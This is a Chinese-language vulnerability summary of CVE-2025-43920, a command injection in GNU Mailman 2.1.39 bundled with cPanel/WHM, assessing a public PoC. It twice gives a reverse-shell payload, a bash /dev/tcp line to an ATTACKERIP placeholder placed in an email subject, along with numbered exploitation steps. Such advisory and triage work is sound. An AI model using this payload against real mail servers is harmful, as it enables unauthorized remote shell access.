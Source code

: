 ## CVE-2025-43920: GNU Mailman Command Injection

**漏洞编号:** CVE-2025-43920

**漏洞类型:** 命令注入

**影响应用:** GNU Mailman

**危害等级:** 高危，可导致远程代码执行

**影响版本:** 2.1.39 (bundled with cPanel/WHM)

**利用条件:** 目标系统运行存在漏洞的Mailman版本，且攻击者可以向受管理的邮件列表发送邮件

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

根据提供的漏洞利用代码和搜索结果，CVE-2025-43920 存在于 GNU Mailman 2.1.39 版本（捆绑在 cPanel/WHM 中）。

**有效性：**
提供的 POC 代码显示了一种通过在电子邮件主题行中注入 shell 元字符来利用命令注入漏洞的方法。发送包含类似`;bash -i >& /dev/tcp/ATTACKERIP/4444 0>&1`的主题的电子邮件到 Mailman 管理的列表，如果成功，将在攻击者的 IP 地址和端口上建立反向 shell。由于该POC利用方式简单明了，并且漏洞描述中说明了未经身份验证的攻击者即可利用，因此该POC有效。

**投毒风险：**
对提供的 README.md 文件进行分析，没有发现任何隐藏的、恶意的或与描述不符的代码。该文件清晰地描述了漏洞、利用方法和缓解措施。因此，投毒风险评估为0%。

**利用方式：**
1.  攻击者需要确定目标系统上运行着易受攻击的 GNU Mailman 版本（2.1.39 或更早版本）。
2.  攻击者需要找到或拥有目标系统上 Mailman 管理的邮件列表的发送权限。
3.  攻击者构造一个包含恶意 shell 命令的电子邮件主题行，例如 `;bash -i >& /dev/tcp/ATTACKERIP/4444 0>&1`，其中 `ATTACKERIP` 是攻击者的 IP 地址，`4444` 是攻击者监听反向 shell 连接的端口。
4.  攻击者将此电子邮件发送到 Mailman 管理的邮件列表。
5.  当 Mailman 处理该电子邮件时，由于主题行中的 shell 元字符未被正确转义，恶意命令将被执行，从而在目标系统上建立一个反向 shell 连接到攻击者的机器。

**项目地址:** [0NYX-MY7H/CVE-2025-43920](https://github.com/0NYX-MY7H/CVE-2025-43920)

**漏洞详情:** [CVE-2025-43920](https://nvd.nist.gov/vuln/detail/CVE-2025-43920)